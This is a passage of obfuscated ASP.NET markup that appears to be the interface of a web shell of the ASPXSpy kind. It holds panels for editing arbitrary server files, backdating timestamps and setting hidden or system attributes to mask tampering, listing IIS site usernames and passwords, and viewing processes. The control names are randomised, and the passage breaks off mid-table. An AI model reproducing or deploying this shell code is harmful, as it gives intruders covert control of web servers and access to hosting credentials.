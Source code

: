 <asp:TableRow CssClass="head"><asp:TableCell>&nbsp;</asp:TableCell><asp:TableCell>Filename</asp:TableCell><asp:TableCell Width="25%">Last modified</asp:TableCell><asp:TableCell Width="15%">Size</asp:TableCell><asp:TableCell Width="25%">Action</asp:TableCell></asp:TableRow>
</asp:Table>
</table>
</div>
<%--FileEdit--%>
<div id="vrFA" runat="server">
<p>Current File(import new file name and new file)<br/>
<input class="input" id="Sqon" type="text" size="100" runat="server"/> <asp:DropDownList ID="NdCX" runat="server" CssClass="list" AutoPostBack="true" OnSelectedIndexChanged="zOVO"><asp:ListItem>Default</asp:ListItem><asp:ListItem>UTF-8</asp:ListItem></asp:DropDownList>
</p>
<p>File Content<br/>
<textarea id="Xgvv" runat="server" class="area" cols="100" rows="25" enableviewstate="true" ></textarea>
</p>
<p><asp:Button ID="JJjbW" runat="server" Text="Submit" CssClass="bt" OnClick="DGCoW"/> <asp:Button ID="iCNu" runat="server" Text="Back" CssClass="bt" OnClick="IkkO"/></p>
</div>
<%--CloneTime--%>
<div id="zRyG" runat="server" enableviewstate="false" visible="false">
<p>Alter file<br/><input class="input" id="QiFB" type="text" size="120" runat="server"/></p>
<p>Reference file(fullpath)<br/><input class="input" id="lICp" type="text" size="120" runat="server"/></p>
<p><asp:Button ID="JEaxV" runat="server" Text="Submit" CssClass="bt" OnClick="XXrLw"/></p>
<h2>Set last modified &raquo;</h2>
<p>Current file(fullpath)<br/><input class="input" id="pWVL" type="text" size="120" runat="server"/></p>
<p>
<asp:CheckBox ID="ZhWSK" runat="server" Text="ReadOnly" EnableViewState="False"/>
&nbsp;
<asp:CheckBox ID="SsR" runat="server" Text="System" EnableViewState="False"/>
&nbsp;
<asp:CheckBox ID="ccB" runat="server" Text="Hidden" EnableViewState="False"/>
&nbsp;
<asp:CheckBox ID="fbyZ" runat="server" Text="Archive" EnableViewState="False"/>
</p>
<p>
CreationTime :
<input class="input" id="yUqx" type="text" runat="server"/>
LastWriteTime :
<input class="input" id="uYjw" type="text" runat="server"/>
LastAccessTime :
<input class="input" id="aLsn" type="text" runat="server"/>
</p>
<p>
<asp:Button ID="kOG" CssClass="bt" runat="server" Text="Submit" OnClick="tIykC"/>
</p>
</div>
<%--IISSpy--%>
<div runat="server" id="VNR" visible="false" enableviewstate="false">
<table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;">
<asp:Table ID="GlI" runat="server" Width="100%" CellSpacing="0">
<asp:TableRow CssClass="head"><asp:TableCell>ID</asp:TableCell><asp:TableCell>IIS_USER</asp:TableCell><asp:TableCell>IIS_PASS</asp:TableCell><asp:TableCell>Domain</asp:TableCell><asp:TableCell>Path</asp:TableCell></asp:TableRow>
</asp:Table>
</table>
</div>
<%--Process--%>
<div runat="server" id="DCbS" visible="false" enableviewstate="false">
<table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;">
<asp:Table ID="IjsL" runat="server" Width="100%" CellSpacing="0" >